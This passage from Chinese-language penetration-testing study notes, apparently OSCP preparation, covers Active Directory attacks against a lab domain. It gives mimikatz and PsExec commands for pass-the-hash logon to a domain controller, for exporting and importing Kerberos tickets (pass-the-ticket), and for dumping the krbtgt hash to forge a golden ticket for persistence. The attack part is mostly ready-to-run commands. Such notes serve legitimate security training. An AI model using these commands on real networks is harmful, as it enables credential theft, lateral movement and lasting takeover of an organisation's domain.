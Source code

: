 在本机上，利用已经获得的hash，给自己申请一个域管理员账号的票据，然后可以登录域的任何一台主机

```powershell
sekurlsa::pth /user:administrator /domain:oscp.com /ntlm:hash /run:powershell
# 以管理员的身份打开了powershell

# 打开工具包,已经有管理员的票据了
PsExec64.exe \\dc1 cmd
```



### PTT

服务票据可以从一台机器导入到另一台机器中

Bob可以访问文件共享，Alice不行，但是Alice可以在Bob这台机器中有管理员权限，可以从Bob机器上导出服务票据，导入到Alice的机器中，让Alice有权限访问文件共享

```powershell
#Bob

sekurlsa::tickets /export
# 会在 mimikatz 当前目录
# 拷贝票据到另一台机器

# 票据导入
kerberos::ptt 票据文件名
# 导入后就有文件共享的权限了
```



## 持久化

### 金票伪造

管理员把密码改了，无法通过PTH来进行登录，可以伪造一张TGT来进行持久化

TGT通过krbtgt的hash来加密，所以伪造TGT需要知道krbtgt的hash

需要的东西：

- 域的SID
- krbtgt的hash
- 域当中任何一个用户的用户名

```powershell
# SID

whoami /user

# krbtgt 需要有域管理员的权限
mimikatz.exe
privilege::debug
lsadump::lsa /patch

# 伪造金票
kerberos::purge # 清理票据
kerberos::golden /user:bob /domain:oscp.com /sid:domain-sid /krbtgt:hash /ptt

# 已经是管理员了
misc::cmd # 打开一个cmd

```
